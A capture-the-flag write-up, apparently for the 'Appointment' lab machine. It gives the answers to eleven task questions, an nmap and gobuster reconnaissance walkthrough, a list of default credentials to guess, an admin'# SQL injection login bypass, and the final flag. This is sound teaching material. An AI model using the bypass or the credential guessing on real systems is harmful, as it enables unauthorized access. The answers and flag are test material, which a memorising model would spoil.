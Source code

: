 # Appointment  

## Task 1  
Q: What does the acronym SQL stand for?  
A: structured query language  

## Task 2  
Q: What is one of the most common type of SQL vulnerabilities?  
A: sql injection  

## Task 3  
Q: What does PII stand for?  
A: personally identifiable information  

## Task 4  
Q: What is the 2021 OWASP Top 10 classification for this vulnerability?  
A: A03:2021-Injection  

## Task 5  
Q: What does Nmap report as the service and version that are running on port 80 of the target?  
A: Apache httpd 2.4.38 ((Debian))  

## Task 6  
Q: What is the standard port used for the HTTPS protocol?  
A: 443  

## Task 7  
Q: What is a folder called in web-application terminology?  
A: directory  

## Task 8  
Q: What is the HTTP response code is given for 'Not Found' errors?  
A: 404  

## Task 9  
Q: Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?  
A: dir  

## Task 10  
Q: What single character can be used to comment out the rest of a line in MySQL?  
A: #  

## Task 11  
Q: If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?  
A: Congratulations  

## SUBMIT FLAG  
``` text
1. scan open ports
    (1) [host] # nmap -sC -sV ${ip} -v
2. gobuster to see the big picture
    (1) [host] # gobuster dir -w ${wordlists_dir}/directory-list-2.3-small.txt -u http://${ip}/
    (2) no further information found.
3. browse http://${ip}/
4. try some easy guess
    (1) admin:admin
    (2) root:root
    (3) guest:guest
    (4) user:user
    (5) administrator:password
    (6) ...
5. try SQL injection
    (1) admin'#:abc
        $sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
        becomes
        $sql="SELECT * FROM users WHERE username='admin'#' AND password='abc'";
        turn the texts after '#' to comment, so that we just search 'admin', if admin is not found, we can try other account like administrator, root, etc.
```
A: e3d0796d002a446c0e622226f42e9672